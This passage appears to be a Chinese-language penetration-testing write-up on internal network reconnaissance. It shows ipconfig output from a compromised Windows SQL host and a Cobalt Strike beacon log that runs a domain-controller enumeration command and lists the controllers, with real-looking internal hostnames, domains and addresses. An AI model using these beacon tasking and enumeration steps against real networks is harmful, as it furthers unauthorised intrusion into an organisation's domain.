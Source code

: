 ![image.png](assets/1698900706-076adff4da9c83969be2d415c69ab511.png)

### 内网信息收集：

##### 先查看ip，看是否存在双网卡机

```php
Windows IP Configuration

   Host Name . . . . . . . . . . . . : CAMS-SQL3
   Primary Dns Suffix  . . . . . . . : AVV.org
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : AVV.org

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-98-E3-D6
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::a5b1:d534:730:3123%11(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.2.0.49(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
```

##### 进行域管理员和域控的查看：

###### 域控：

net group "domain controllers" /domain

```php
[04/26 18:16:59] beacon> shell net group "domain Controllers" /domain
[04/26 18:17:00] [*] Tasked beacon to run: net group "domain Controllers" /domain
[04/26 18:17:00] [+] host called home, sent: 69 bytes
[04/26 18:17:00] [+] received output:
The request will be processed at a domain controller for domain FPC.LOCAL.

Group name     Domain Controllers
Comment        All domain controllers in the domain

Members

-------------------------------------------------------------------------------
AVV-DC1$                 AVV-DC2$                 AVV-DHDC01$              
AVV-DHDC02$                    
```
